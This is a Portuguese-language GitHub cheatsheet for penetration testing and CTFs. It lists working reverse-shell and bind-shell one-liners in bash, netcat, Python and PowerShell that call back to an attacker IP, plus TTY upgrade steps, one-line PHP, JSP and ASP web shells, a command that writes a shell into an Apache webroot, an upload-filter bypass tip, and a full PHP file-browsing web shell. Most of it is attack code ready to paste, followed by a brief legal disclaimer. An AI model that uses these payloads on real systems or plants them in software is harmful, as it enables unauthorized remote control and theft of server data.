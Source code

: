 # 🐚 Cheatsheet: Reverse Shells, Bind Shells & TTY

Este repositório traz um conjunto prático de comandos úteis para obtenção de shells remotas durante testes de penetração, exploração ou CTFs.

Gerador de shell reversa bastante útil: [reverse-shell.sh](https://reverse-shell.sh/)

---

## 📡 Reverse Shell

Um *reverse shell* é quando a máquina alvo se conecta de volta ao nosso host, nos fornecendo uma shell remota.

- Bash: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
- Netcat + FIFO: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f`
- PowerShell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

---

## 🔗 Bind Shell

Um *bind shell* escuta conexões em uma porta específica da máquina alvo. Diferente do reverse shell, **nós nos conectamos ao alvo**.

- Bash: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f`
- Python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
- PowerShell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ' ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

## 🖥️ TTY Shell Upgrade

Use isso para obter uma shell mais interativa (ex: com tab-completion e atalhos funcionais):

1. Use: `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Coloque a shell em segundo plano com `CTRL + Z`
3. No seu terminal local, digite: `stty raw -echo`
4. Volte para a shell com `fg` e pressione `Enter` duas vezes
5. A shell agora está interativa!

Podemos notar que nosso shell não cobre todo o terminal. Para corrigir isso, precisamos descobrir algumas variáveis. Podemos abrir outra janela de terminal em nosso sistema, maximizar as janelas ou usar qualquer tamanho que quisermos e, em seguida, inserir os seguintes comandos para obter nossas variáveis:

- Gust4vo@htb[/htb]$ echo $TERM xterm-256color
- Gust4vo@htb[/htb]$ stty size 67 318



---

## ℹ️ Notas

- Substitua `10.10.10.10` pelo seu IP local
- Altere a porta `1234` conforme necessário
- Para escutar conexões, use: `nc -lvnp 1234`

---

## 🌐 Web Shell

A *Web Shell* normalmente é um script web, ou seja., PHP ou ASPX, que aceita nosso comando através de parâmetros de solicitação HTTP, tais como GET ou POST solicitar parâmetros, executa nosso comando e imprime sua saída de volta na página da web.

- php: `<?php system($_GET['ted']);?>`  e depois url&ted=whoami
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Uma vez que temos o nosso shell web, precisamos colocar o nosso script shell web no diretório web do host remoto (webroot) para executar o script através do navegador web.


Se fosse um Linux executando Apache por exemplo seria `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`, e podemos acessar a web shell pela URL e pelo curl.

curl "http://example.com/shell.php?cmd=whoami"

---

## Tecnicas de bypass de extensão shell </br>
<img width="542" height="848" alt="image" src="https://github.com/user-attachments/assets/af956b20-0722-46e8-9d86-e8e386792023" />

- GIF89a; na primeira linha tbm util para bypass

---

## Shell em PHP 

Shell simples para navegação e vizualização de diretorios do web server (credits: HackerSec)

```php
<?php
$path = $_GET['v'];
$action = $_GET['a'];

echo "Servidor <br>";

if($action == true){

echo "<textarea class='form-control' name='textl'>";

$arquivo_edit = fopen ($action, 'r') or die("Unable to open file!");

while( !feof($arquivo_edit)){
$linha = fgets($arquivo_edit);
echo htmlspecialchars($linha);

}

fclose($arquivo_edit);


echo "</textarea>";



}else{




if($path == false){
$path = "./";
}else{
$path = $path;
}

$diretorio = dir($path);


while($arquivo = $diretorio -> read()){

$arquivoex = substr($arquivo, strripos($arquivo, '.'));

if($arquivoex == ".php" or $arquivoex == ".js" or $arquivoex == ".css" or $arquivoex == ".txt"){
$mostrar = "<a href='shell.php?a=$path$arquivo'>".$arquivo."</a><br>";
}else{
$mostrar = "<a href='shell.php?v=$path$arquivo/'>".$arquivo."</a><br>";
}

echo $mostrar;

}
$diretorio -> close();
}



?>
```
---

> ⚠️ **Aviso legal:** Todos os comandos aqui têm propósito educacional e devem ser utilizados somente em ambientes controlados ou com permissão explícita.
